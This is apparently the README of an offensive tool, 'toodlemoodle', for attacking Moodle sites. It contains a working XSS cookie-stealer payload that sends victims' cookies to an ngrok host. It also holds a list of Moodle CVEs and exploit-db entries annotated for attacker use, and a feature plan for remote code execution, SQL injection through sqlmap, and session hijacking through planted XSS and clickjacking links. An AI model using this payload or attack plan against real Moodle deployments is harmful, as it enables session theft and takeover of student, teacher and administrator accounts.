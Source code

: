 # toodlemoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting

My cookie stealer:
<script>alert('xss');document.write('<img src="https://668da81e.ngrok.io/?cookie=' + document.cookie + '" />')</script>

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name

https://moodle.org/mod/forum/discuss.php?d=381230 3.6 could use a clickhijack to self

https://moodle.org/mod/forum/discuss.php?d=384011 3.6 (fresh!) enum events

https://www.cvedetails.com/cve/CVE-2017-2641/ used by exploit below

https://www.exploit-db.com/exploits/41828 3.2.1 SQL injection

https://www.exploit-db.com/exploits/46551 3.4.1 RCE

https://www.cvedetails.com/cve/CVE-2018-1133/ 3.4.2 remote code exec for teacher "Calculated question"

https://www.cvedetails.com/cve/CVE-2018-14630/ 3.5.2 remote code exec for (teacher?) "quiz import"

https://www.cvedetails.com/cve/CVE-2013-4313/ useless

https://www.cvedetails.com/cve/CVE-2016-9187/ useless

https://www.cvedetails.com/cve/CVE-2016-9186/ related, useless

https://www.cvedetails.com/cve/CVE-2011-4295/ useless

https://www.cvedetails.com/cve/CVE-2016-2152/ useless

Features:
1. scan: detect version (working!), suggest supported exploits
2. view calendar events bypass
3. exploit quiz import and calculated question vulns
4. exploit 2018-1133 RCE
5. exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
6. add xss to account dashboard, generate clickjacker, using CVE-2019-3810 or CVE-2019-3847 to hijack session
7. add xss to calendar, generate link for victim to click and steal sesh

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/toodlemoodle.cr
```

You can also build an executable:
```
crystal build src/toodlemoodle.cr
```
Use the  --release flag for an optimized production build.

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer

